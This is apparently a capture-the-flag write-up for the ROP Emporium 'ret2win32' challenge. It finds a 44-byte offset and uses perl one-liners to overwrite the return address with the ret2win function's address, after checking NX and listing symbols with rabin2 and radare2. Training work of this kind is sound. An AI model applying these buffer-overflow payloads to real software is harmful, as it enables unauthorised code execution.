









# ret2win32

You can find this challange [here](https://ropemporium.com/challenge/ret2win.html).

## Black-Box Test
Let's run the program `ret2win32` and observe the output

```
./ret2win32
```


Let's input normal data, such as `ABCD`, and observe the program's behavior.



After some trial and error, I found the exact index where we can overwrite the return address.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./ret2win32
```

```
sudo dmesg -k | tail -2
```



## Finding important details

If we examine the stack permissions, we'll find that NX protection is enabled on it, so we won't be able to execute code that is written directly on it.

```
rabin2 -I ret2win32
```


Therefore, we will look for functions that can help us.

```
rabin2 -qs ret2win32 | grep -ve 'imp' -e ' 0 ' -e '_'
```


The function `ret2win` looks very suspicious and matches the challenge name, so it's likely the function we're looking for. To be absolutely sure, let's take a closer look at the function itself.

```
r2 ret2win32
```
```
aa
```
```
afl
```

```
pdf @ sym.ret2win
```


Indeed, that is the function we want.

## Solution

The `ret2win` function is located at address `0x0804862c`. To overwrite the return address, we first need to fill the stack with 44 garbage characters. The address will follow immediately after them.

So, let's return to the terminal and enter the following command:

```
perl -e 'print "A"x44 . "\x2c\x86\x04\x08"' | ./ret2win32
```


And that’s it!
